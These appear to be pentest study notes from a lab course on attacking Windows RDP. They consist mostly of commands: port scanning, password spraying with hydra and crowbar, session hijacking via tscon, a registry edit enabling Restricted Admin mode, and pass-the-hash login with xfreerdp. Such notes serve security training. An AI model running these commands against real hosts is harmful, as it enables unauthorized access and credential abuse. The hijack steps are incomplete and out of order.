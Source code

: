 >[Remote Desktop Protocol (RDP)](https://en.wikipedia.org/wiki/Remote_Desktop_Protocol) is a proprietary protocol developed by Microsoft which provides a user with a graphical interface to connect to another computer over a network connection. It is also one of the most popular administration tools, allowing system administrators to centrally control their remote systems with the same functionality as if they were on-site. In addition, managed service providers (MSPs) often use the tool to manage hundreds of customer networks and systems. Unfortunately, while RDP greatly facilitates remote administration of distributed IT systems, it also creates another gateway for attacks.

---

By default, RDP uses port `TCP/3389`. Using `Nmap`, we can identify the available RDP service on the target host:

```
$ nmap -Pn -p3389 192.168.2.143 
```
#nmap #rdp

## Misconfigurations

>Since RDP takes user credentials for authentication, one common attack vector against the RDP protocol is password guessing. Although it is not common, we could find an RDP service without a password if there is a misconfiguration.

```
$ crowbar -b rdp -s 192.168.220.142/32 -U users.txt -c 'password123'
```

```
$ hydra -L usernames.txt -p 'password123' 192.168.2.143 rdp
```

```
$ rdesktop -u admin -p password123 192.168.2.143
```
#rdesktop #login #hydra #crowbar
#### RDP Session Hijacking

>As shown in the example below, we are logged in as the user `juurena` (UserID = 2) who has `Administrator` privileges. Our goal is to hijack the user `lewen` (User ID = 4), who is also logged in via RDP.

```c
C:\htb> tscon #{TARGET_SESSION_ID} /dest:#{OUR_SESSION_NAME}
```

```c
C:\htb> query user
```

```c
C:\htb> net start sessionhijack
```
#cmd #net #tscon


## RDP Pass-the-Hash (PtH)

>`Restricted Admin Mode`, which is disabled by default, should be enabled on the target host; otherwise, we will be prompted with the following error:

		Adding the DisableResrictedAdmin Registry Key
```c
C:\htb> reg add HKLM\System\CurrentControlSet\Control\Lsa /t REG_DWORD /v DisableRestrictedAdmin /d 0x0 /f
```
#cmd #reg #pth 

![[rdp_session-5.png]]


```
$ xfreerdp /v:192.168.220.152 /u:lewen /pth:300FF5E89EF33F83A8146C10F5AB9BB9
```
#xfreerdp #pth #login 